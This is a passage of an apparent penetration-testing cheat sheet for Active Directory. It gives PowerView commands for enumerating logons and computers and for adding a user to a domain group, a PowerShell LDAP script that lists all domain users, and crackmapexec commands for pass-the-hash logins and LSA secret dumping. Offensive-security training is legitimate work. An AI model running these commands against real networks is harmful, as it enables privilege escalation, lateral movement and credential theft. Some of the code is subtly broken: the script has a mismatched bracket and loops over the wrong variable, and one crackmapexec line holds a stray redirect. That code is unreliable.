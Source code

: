 ### Last Logon

```powershell
# powerview
Get-LastLoggedOn -ComputerName <domain>
```

### List Computers

```powershell
# powerview
Get-NetComputer 
```

### Add Domain User to a Domain Group

```powershell
# powerview
Add-DomainGroupMember -Identity 'SQLManagers' -Members 'examed'
Get-NetGroupMember -GroupName 'SQLManagers'
```

### Enumeration Script for All AD Users


```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368"
$Results = $Searcher.FindAll()
Foreach($obj in $Result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    
    Write-Host "------------------------"
}
```

### Access

  Validation of network user credentials via smb using crackmmapexec  
```sh
crackmapexec smb <IP> -u <user> -H <hash> -d <domain> --continue-on-success
crackmapexec smb <IP> -u <user> -H <hash> > -d <domain> 
crackmapexec smb <IP> -u <user> -H <hash> -H <hash> --local-auth --lsa  
crackmapexec smb <IP> -u <user> -p <password>
```
